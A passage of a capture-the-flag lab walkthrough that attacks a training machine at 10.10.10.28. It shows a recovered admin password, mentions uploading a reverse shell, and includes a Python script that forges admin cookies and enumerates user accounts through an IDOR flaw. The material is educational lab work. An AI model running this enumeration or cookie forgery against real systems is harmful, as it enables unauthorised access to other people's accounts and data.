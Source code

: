 `admin/MEGACORP_4dm1n!!` is the answer.

![1054904841448.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1624364889827/5Twexim-r.png align="left")

On the top navigation bar there is an `Upload` page - this is something we should check right away for possible reverse shell uploads.

## `/cdn-cgi/login/admin.php?content=uploads`

![558202605415.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1624364913275/lb2_8hCNo.png align="left")

That's an interesting one. We come back here after we enumerate users

## `/cdn-cgi/login/admin.php?content=accounts&id=1`

![1095069701766.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1624364925916/szOTLgtDO.png align="left")

Using the Developer Tools (F12) we can peek the request and cookies:

![2626903306530.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1624364935593/iYSZPxsvR.png align="left")

Let's enumerate the `id` query parameter to discover some users.

```py
# account_enum.py

import requests
import urllib3
import re
from tabulate import tabulate

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

host = "10.10.10.28"
url = f"http://{host}/cdn-cgi/login/admin.php?content=accounts&id="

headers = {}
cookies = {"user":"34322", "role":"admin"}

t_header = ["ID", "Name", "Email"]
t_matches = []

re_pattern = "<table><tr><th>Access ID</th><th>Name</th><th>Email</th></tr><tr><td>(?P<ID>.+)</td><td>(?P<Name>.+)</td><td>(?P<Email>.+)</td></tr></table"

for i in range(100):
    r = requests.get(f"{url}{i}", cookies=cookies, headers=headers, verify=False)

    match = re.search(re_pattern, r.text)

    if match != None:
        t_matches.append([match["ID"], match["Name"], match["Email"]])

print(tabulate(t_matches, t_header))
```
